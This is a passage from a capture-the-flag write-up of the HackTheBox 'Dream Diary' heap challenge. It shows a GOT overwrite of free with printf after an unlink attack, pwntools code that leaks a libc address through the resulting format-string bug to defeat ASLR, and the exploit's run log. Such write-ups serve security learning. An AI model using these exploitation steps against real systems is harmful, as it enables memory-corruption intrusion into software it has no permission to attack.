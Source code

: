 ```asm
| [1] Allocate                 |
| [2] Edit                     |
| [3] Delete                   |
| [4] Exit                     |
+------------------------------+
>> $  


[..snip..]
0x0000000000400710  printf@plt
gef➤  got

GOT protection: Partial RelRO | GOT functions: 11
 
[0x602018] free@GLIBC_2.2.5  →  0x400710
```
As you can see, we successfully overwritten the `free@got` with the PLT address of the `printf`. Now, we have the `printf`, as from the reverse engineering, we know that the free is done like `free(ptr[index])`, as the `free` is now `printf`, now it'll do the `printf(ptr(index])`, as obvious it should be we have a format string vulnerability now, we can leak a LIBC address to defeat ASLR.

```py
log.info("Getting __libc_start_main")
allocate(0x88, "%15$p")
delete(4)
p.recvline()
libc_start_main = int(p.recvline().strip(b"\n"), 16)
log.info("__libc_start_main+240:    0x%x" %(libc_start_main))
libc.address = libc_start_main - 240 - libc.function("__libc_start_main")

log.info("LIBC                 :    0x%x" %(libc.address))
```

Running the exploit now, we will have the LIBC leak:-

```py
0 [13:26:50] vagrant@oracle(oracle) HackTheBox> python3 chapter1.py 
[+] Starting program './chapter1': PID 2449
[*] Analyzing /media/sf_Pwning/HackTheBox/chapter1
[*] Analyzing /home/vagrant/tools/LibcSearcher/libc-database/db/libc6_2.23-0ubuntu10_amd64.so
[*] Created 5 chunks of size: 0x88
[*] Preparing a fake chunk...
[*] Fake chunk:
    00000000:  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
    00000010:  c0 20 60 00 00 00 00 00  c8 20 60 00 00 00 00 00  |. `...... `.....|
    00000020:  58 58 58 58 58 58 58 58  58 58 58 58 58 58 58 58  |XXXXXXXXXXXXXXXX|
    00000030:  58 58 58 58 58 58 58 58  58 58 58 58 58 58 58 58  |XXXXXXXXXXXXXXXX|
    00000040:  58 58 58 58 58 58 58 58  58 58 58 58 58 58 58 58  |XXXXXXXXXXXXXXXX|
    00000050:  58 58 58 58 58 58 58 58  58 58 58 58 58 58 58 58  |XXXXXXXXXXXXXXXX|
    00000060:  58 58 58 58 58 58 58 58  58 58 58 58 58 58 58 58  |XXXXXXXXXXXXXXXX|
    00000070:  58 58 58 58 58 58 58 58  58 58 58 58 58 58 58 58  |XXXXXXXXXXXXXXXX|
    00000080:  80 00 00 00 00 00 00 00  90                       |.........|
[*] Editing chunk 3 with a fakr chunk
[*] Triggering Unlink
[*] Changing freegot to print@plt for LIBC Leak
[*] Getting __libc_start_main
[*] __libc_start_main+240:    0x7f01b54d3840
[*] LIBC                 :    0x7f01b54b3010
[*] Switching to interactive mode
Done!

+------------------------------+
|         Dream Diary          |
+------------------------------+
| [1] Allocate                 |
```